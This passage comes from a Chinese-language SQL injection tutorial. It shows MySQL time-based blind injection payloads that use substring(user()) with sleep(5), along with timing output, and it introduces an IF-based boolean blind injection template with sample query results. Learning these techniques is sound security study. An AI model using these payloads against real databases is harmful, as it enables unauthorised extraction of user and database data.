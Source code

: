 ## 0x02.5 解法二-延时盲注查询数据库用户名



substring, substr, mid 这3个函数利用方式都是一样的，所以就只举例一个



```plain
// 正确的情况
mysql> SELECT * from tdb_goods where goods_id = 1 and case when(substring(user() from 1 for 1)='r') then sleep(5) else 0 end;
Empty set (5.00 sec)
// 错误的情况
mysql> SELECT * from tdb_goods where goods_id = 1 and case when(substring(user() from 1 for 1)='x') then sleep(5) else 0 end;
Empty set (0.00 sec)
```

# 七、if判断条件

# 0x00 记忆方式

and if(substring(表达式,1,1)=判断条件 ,1=1,1=2);



正确时会和原来的数据一致,错误会不返回数据

# 0x01 基本数据



```plain
mysql> select version();
+-----------+
| version() |
+-----------+
| 5.5.53    |
+-----------+
1 row in set (0.27 sec)

mysql> select user();
+----------------+
| user()         |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)

mysql> select database();
+------------+
| database() |
+------------+
| test       |
+------------+
1 row in set (0.00 sec)

mysql> select * from test where id = 1;
+----+------+------+---------+
| id | test | map  | content |
+----+------+------+---------+
|  1 | 1    | NULL | NULL    |
+----+------+------+---------+
1 row in set (0.00 sec)
```